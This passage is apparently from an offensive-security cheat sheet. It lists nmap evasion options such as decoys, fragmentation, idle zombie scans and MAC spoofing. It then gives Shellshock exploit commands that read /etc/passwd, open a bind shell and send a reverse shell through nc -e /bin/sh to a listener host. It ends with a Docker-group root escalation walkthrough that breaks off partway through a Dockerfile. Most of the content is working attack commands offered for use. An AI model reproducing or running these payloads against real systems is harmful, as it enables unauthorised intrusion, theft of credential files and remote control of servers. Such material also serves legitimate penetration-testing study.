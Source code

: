 ```
# fragmentation
$ nmap -f

# change default MTU size number must be a multiple of 8 (8,16,24,32 etc)
$ nmap --mtu 24

# Generates a random number of decoys
$ nmap -D RND:10 [target]

# Manually specify the IP addresses of the decoys
$ nmap -D decoy1,decoy2,decoy3 etc.

# Idle Zombie Scan, first t need to find zombie ip
$ nmap -sI [Zombie IP] [Target IP]

# Source port number specification
$ nmap --source-port 80 IP

# Append Random Data to scan packages
$ nmap --data-length 25 IP

# MAC Address Spoofing, generate different mac for host pc
$ nmap --spoof-mac Dell/Apple/3Com IP
```
### Exploit servers to Shellshock

```
# A tool to find and exploit servers vulnerable to Shellshock
# https://github.com/nccgroup/shocker
$ ./shocker.py -H 192.168.56.118  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

# cat file
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80

# bind shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80

# reverse Shell
$ nc -l -p 443
$ echo "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.103 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80
```
### Root with Docker

```
# get root with docker
# user must be in docker group
ek@victum:~/docker-test$ id
uid=1001(ek) gid=1001(ek) groups=1001(ek),114(docker)

ek@victum:~$ mkdir docker-test
ek@victum:~$ cd docker-test

ek@victum:~$ cat > Dockerfile
FROM debian:wheezy

ENV WORKDIR /stuff

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]
```